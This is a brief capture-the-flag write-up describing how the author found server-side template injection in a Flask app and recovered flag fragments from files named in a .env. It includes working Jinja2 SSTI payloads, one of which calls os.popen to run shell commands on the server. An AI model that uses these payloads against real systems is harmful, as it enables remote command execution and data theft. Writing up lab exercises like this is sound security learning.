 banner grab:
![alt text](pelumba_negara_banner_grab.png)

tested for html tag on web and reflected.

![alt text](pelumba_negara_test_injection.png)

but haven't get great result on XSS.

Proceeding to SSTI and reflexted.
![alt text](pelumba_negara_test_injection_ssti.png)

Research in flask ssti to enum dirs.
https://techbrunch.github.io/patt-mkdocs/Server%20Side%20Template%20Injection/#jinja2-dump-all-config-variables

Using this payload to list dirs.
```
{{config.__class__.__init__.__globals__['os'].listdir('.')}}
```
and for this case I made this:
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

![alt text](pelumba_negara_listdirs.png)

When print the ```flag.txt``` doesn't have real flag proceed to ```Minardi2002.txt``` file, also another diversion from author.

In .env got a message:
```

# Alex Yoong F1 Career Configuration
# Malaysia's First Formula 1 Driver Database

# F1 Career Files
F1_DEBUT_YEAR_FILE=/usr/1976.txt
MALAYSIAN_DRIVER_DATA=/var/malaysia.txt  
SEPANG_CIRCUIT_INFO=/tmp/f1.txt
```

Boom! These files were contains the flag pieces.\
/tmp/f1.txt = ``` 3108{d4r1_Ku4l4_Lumpur_k3 ```
/var/malaysia.txt = ``` 3_p3nt4s_duni4_Alex_Y00ng_ ```
/usr/1976.txt = ``` f1rst_M4l4ysi4n_F1_dr1v3r} ```

Success!
```
http://ctf.bahterasiber.my/share/solve?user_id=492&challenge_id=8&mac=b763e37bf75cdffa94b9549d02eafe0fd8a805fe
```